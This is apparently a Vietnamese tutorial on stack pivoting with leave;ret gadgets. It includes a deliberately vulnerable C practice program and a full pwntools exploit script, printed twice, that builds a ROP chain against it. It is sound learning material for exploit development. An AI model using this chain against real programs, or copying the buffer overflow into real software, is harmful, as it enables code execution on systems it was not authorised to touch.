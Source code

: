 # Stack pivot

- là một kỹ thuật chúng ta sử dụng khi thiếu dung lượng trên `stack`.
- ví dụ: ta có 1 biến `buff[60] và 1 hàm gets(buff , 80)` và để có thể get shell ta sẽ phải `ret ==> pop rdi + /bin/sh ==> system` chẳng hạn thì tổng dung lượng ta cần là 24 byte , nhưng bạn có thể thấy từ `$rsp` tới `$rbp` đã là 68 byte rồi vậy là sẽ không đủ để chứa hết các gadget trên , vì thế ta cần phải sử dụng `stack pivot` để chuyển `stack` của chúng ta sang 1 vùng địa chỉ mà ta được cho sẵn hay leak được có thể ghi vào vùng địa chỉ đó và ta sẽ exploit y như `ROP` :Đ .

## Các kiểu Stack pivot

### step 1: pop rsp gadget

- là kiểu ít được sử dụng nhất và ít được ra nhất (cách này cũng khá là phức tạp)

```
pop <reg>                <=== return pointer
<reg value>
xchg <rag>, rsp
```

- cách này khá chua mình sẽ ko giải thích gì thêm , nếu bạn mún tìm hiểu thêm thì xem trang này nhóe :>>> [stack_pivot](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

### step 2: leave;ret gadget

- cách này ez và dễ hiểu hơn rất nhiều , ta chỉ cần sử dụng `gadget leave;ret` là ta đã sử dụng được `stack pivot` :))) , nghe ảo không. Đơn giản `leave;ret` nó hoạt động giống với cụm này :
  ```
  mov rsp, rbp
  pop rbp
  ```
- Và khi ta chạy vào thực tế thì nó có lẽ sẽ giống như cụm này hơn:
  ```
  mov rsp, rbp
  pop rbp
  pop rip
  ```
- Để có thể mà hiểu hơn cách hoạt động của `leave;ret`  thì ta sẽ nhập những `gadget` mà ta cần ở đầu `stack` nhưng ***LƯU Ý hãy padding thừa 8 byte đầu  = 0x0 cũng được , 1 tí nữa sẽ có 1 chall test bạn có lẽ sẽ hiểu hơn về lưu ý này.***  Khi thực hiện `leave;ret` nó sẽ nhảy đến địa chỉ có thể ghi được bằng cách padding địa chỉ đó vào `rbp` và nó sẽ tiếp tục lưu lại những gì ở `rsp` vào `rbp` tại 1 địa chỉ khác và thực hiện những `gadget` ta đã padding ở `rsp` và chạy như 1 bài `ROP` bình thường :Đ (nghe có vẻ hơi phức tạp nhỉ , cùng thực hiện 1 chall nhỏ sau để dễ hiểu hơn nha).

## Chall thử:

```
// gcc source.c -o vuln -no-pie
#include <stdio.h>

void winner(int a, int b) {
    if(a == 0xdeadbeef && b == 0xdeadc0de) {
        puts("Great job!");
        return;
    }
    puts("Whelp, almost...?");
}

void vuln() {
    char buffer[0x60];
    printf("Try pivoting to: %p\n", buffer);
    fgets(buffer, 0x80, stdin);
}

int main() {
    vuln();
    return 0;
}
```

- source cơ bản sẽ như này , chương trình cho ta sẵn 1 địa chỉ để pivot , và phải ow được **a = 0xdeadbeef && b = 0xdeadbeef**  với ***a là rdi và b là rsi***.

  ![1699984856674](image/stack_pivot/1699984856674.png)

  ![1699984883157](image/stack_pivot/1699984883157.png)

  ### Source:


  ```
  from pwn import *

  elf = context.binary = ELF('./vuln')

  p = process()

  gdb.attach(p, gdbscript='''
                  b*0x00000000004011d0

                  c
                  ''')

  input()


  p.recvuntil('to: ')
  buffer = int(p.recvline(), 16)
  log.success(f'Buffer: {hex(buffer)}')

  LEAVE_RET = 0x401193
  POP_RDI = 0x40114a
  POP_RSI_R15 = 0x40114c

  payload = flat(
      0x0,               # rbp
      POP_RDI,
      0xdeadbeef,
      POP_RSI_R15,
      0xdeadc0de,
      0x0,
      elf.sym['winner']
  )

  payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

  payload += flat(
      buffer,
      LEAVE_RET
  )

  pause()
  p.sendline(payload)
  print(p.recvline())
  ```
- Source cơ bản sẽ như sau , mình sẽ giải thích cơ bản trước khi debug đằng sau hàm `fgets` để xem cách hoạt động cả source sau. Đầu tiên là padding thừa 8byte đầu để phục vụ việc `stack pivot` 1 tí debug bạn sẽ biết sau nhóe , tiếp theo là ta nhập các `gadget` như bình thường , cuối đấy là địa chỉ hàm `win` để có thể tạo shell ,sau đấy ta `ljust` để ta có thể đến được `rbp` , cuối cùng ta nhập vào `rbp` địa chỉ `pivoting` đề cho và `rip` sẽ là `leave;ret`.
- Cùng debug để xem cách mà source này hoạt động cũng như cách `leave;ret` thực thi.

  ![1699985721159](image/stack_pivot/1699985721159.png)
- đầu tiên là ret đến `leave;ret` , sau đấy nó sẽ pop rbp bằng địa chỉ đã cho , rbp sẽ ngay lực tức nhảy đến địa chỉ đó và những `gadget` ta nhập ở rsp cũng đã được chuyển đến `rbp.`

  ![1699986012910](image/stack_pivot/1699986012910.png)
- Và bạn đã thấy nó sẽ ret đến pop rdi và thực hiện những `gadget` mà ta nhập. Có lẽ bạn sẽ hỏi nếu như ta không nhập thừa 8 byte đầu thì nó sẽ như thế nào đúng hong , cùng xem ảnh dưới chính xác nó sẽ xảy ra như thế này:

  ![1699986140632](image/stack_pivot/1699986140632.png)
- Bạn thấy đấy sau khi `leave;ret` thì chương trình thực hiện ngay dòng kẹp giá trị `0xdeadbeef` vào rdi mà không phải là pop rdi là bởi vì khi mà ta `stack pivot` sang 1 địa chỉ khác đồng nghĩa với việc ta phải nhập lại giá trị cho `rbp` , bởi vì thế mà tớ đã ***LƯU Ý cho các bạn về việc nên padding dư 8 byte đầu là vì thế , phục vụ cho việc sau khi `stack pivot` sang 1 địa chỉ khác ta có thể bảo toàn các `gadget` đã nhập , đảm bảo việc `exploit` chương trình được diễn ra trơn tru hơn***.
- Tớ chỉ có thể đưa ra 1 ví dụ tiêu biểu nhất về cách sử dụng `leave;ret` thui nên các bạn mún tìm hiểu thêm về cách sử dụng `pop rsp` thì và link mà tớ gửi nhóe :>>> .

  ## source hoàn chỉnh :


  ```
  from pwn import *

  elf = context.binary = ELF('./vuln')
  p = process()

  gdb.attach(p, gdbscript='''
                  b*0x00000000004011d0
               
                  c
                  ''')

  input()


  p.recvuntil('to: ')
  buffer = int(p.recvline(), 16)
  log.success(f'Buffer: {hex(buffer)}')

  LEAVE_RET = 0x401193
  POP_RDI = 0x40114a
  POP_RSI_R15 = 0x40114c

  payload = flat(
      0x0,               # rbp
      POP_RDI,
      0xdeadbeef,
      POP_RSI_R15,
      0xdeadc0de,
      0x0,
      elf.sym['winner']
  )

  payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

  payload += flat(
      buffer,
      LEAVE_RET
  )

  pause()
  p.sendline(payload)
  print(p.recvline())
  ```
